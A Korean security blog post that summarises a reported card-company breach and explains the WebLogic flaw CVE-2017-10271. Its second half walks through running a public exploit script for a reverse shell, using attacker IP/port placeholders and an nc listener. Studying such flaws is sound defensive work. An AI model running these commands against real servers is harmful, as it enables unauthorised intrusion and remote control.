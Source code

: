 ```yaml
---
title:  "2025-08-26 롯데카드 온라인 결제 시스템 해킹 사건 분석"
excerpt: "오라클 웹로직 CVE-2017-10271 취약점에 대해 알아보자. "

categories: [information, cve]
tags:
  - [cve, oracle ]

typora-root-url: ../../
 
date: 2025-09-02
last_modified_at: 2025-09-02
---
```

# 사건 개요
<img src="../../../images/2025-09-01-lottecard/image.png" alt="img" style="zoom:50%;" />

롯데카드 온라인 결제 시스템 해킹 시도 포착…웹쉘 업로드 통한 내부자료 1.7GB 유출 정황

롯데카드 내부 서버 해킹 시도가 실제 데이터 유출로 이어진 정황이 확인됐다. 이번 공격은 단순한 침투 시도를 넘어, 온라인 결제 시스템을 겨냥해 악성코드를 심고 내부 자료를 탈취하는 수준으로 진행된 것으로 알려졌다.

롯데카드는 지난 8월 26일 내부 서버 침해 정황을 포착한 뒤 9월 1일 금융감독원에 관련 사실을 신고했다. 자체 조사 결과, 공격자는 Oracle WebLogic(오라클 웹로직)의 CVE-2017-10271 취약점을 악용해 악성코드를 감염시킨 뒤 웹쉘을 업로드했다. 이를 통해 내부 결제 시스템 자료 약 1.7GB가 외부로 유출된 것으로 파악됐다.

롯데카드는 이번 사고가 랜섬웨어와 같은 직접적 서비스 마비 공격은 아니지만, 온라인 결제 핵심 시스템을 노린 침해였다는 점에서 사안의 심각성이 크다고 보고 있다.

**ISMS-P 획득 이후 발생한 보안 침해 사고**

롯데카드는 지난 8월 12일 정보보호 및 개인정보보호 관리체계(ISMS-P) 인증을 획득하며 보안 강화 노력을 이어온 기업이다. 그러나 불과 2주 만에 온라인 결제 시스템에서 취약점이 악용된 사건이 발생하면서 업계 전반의 보안 체계가 여전히 근본적인 위협에 직면해 있음을 보여준다.

출처 : 데일리시큐(https://www.dailysecu.com)

# CVE-2017-10271
## 취약점 개요
CVE-2017-10271은 Oracle WebLogic Server의 원격 코드 실행(RCE) 취약점으로, 공격자가 특수 제작된 XML 데이터를 전송하여 원격에서 임의의 코드를 실행할 수 있는 심각한 보안 문제이다.

해당 취약점은 WebLogic의 wls-wsat 컴포넌트에 존재하는 역직렬화 취약점으로써, 적절한 인증 없이 원격에서 공격이 가능하다. 공격자는 이를 이용해 웹쉘 업로드, 악성코드 설치, 원격 제어 등 다양한 공격을 수행할 수 있다.

## CVE-2017-10271 exploit 방법
- 공격자는 취약한 WebLogic 서버에 악성 XML 페이로드를 보내 원격 코드 실행 권한 획득
- 이후 PowerShell 스크립트 등을 이용해 공격용 바이너리를 다운로드 및 실행하거나 웹쉘을 업로드
- 공개된 익스플로잇 코드와 Metasploit 모듈이 존재하여 실습 환경에서 원격 코드 실행을 연습 가능


### exploit 준비 사항 및 사용 방법
활용 exploit - [Exploit-DB](https://www.exploit-db.com/exploits/43458)

- 취약한 Oracle WebLogic 서버 주소(URL)
- 공격자의 리버스 셸을 받을 IP(lhost) 및 포트(lport) (리스닝 환경 구성 필요)
- Python 3 환경 (requests 라이브러리 필요)
- 리버스 셸 리스닝 도구 (nc 또는 Python HTTP 서버 등)

#### 1. 취약한 서버가 있는 URL, 리버스 쉘을 받을 IP, Port 지정
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/
```

#### 2. 윈도우 서버 대상이면 `-w` 옵션 추가하여 윈도우용 페이로드 사용
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -w
```

#### 3. 취약 여부만 확인하려면 `-c` 옵션을 사용하여 HTTP 요청 체크 실행
```bash
python exploit.py -l <공격자_IP> -p <포트> -r http://<취약서버_IP>:7001/ -c
```

#### 4. 이후 공격자 머신에서 리버스 쉘을 받을 리스너 실행
```bash
nc -nlvp <포트>

또는

python3 -m http.server <포트>
```
스크립트를 실행하면 취약 서버에 XML 페이로드를 전송하여 임의 코드(리버스 셸) 실행을 시도한다. 리스너에서 쉘 접속이 열리면 공격 성공

#### 주요 옵션
- `-l` : 리스너 IP
- `-p` : 리스너 포트
- `-r` : 취약 서버 URL (예: http://10.10.10.10:7001)
- `-c` : 취약점 존재 체크(HTTP 요청만 확인)
- `-w` : 윈도우 대상 페이로드 사용

주의: 반드시 허가된 실습 환경에서만 사용!!

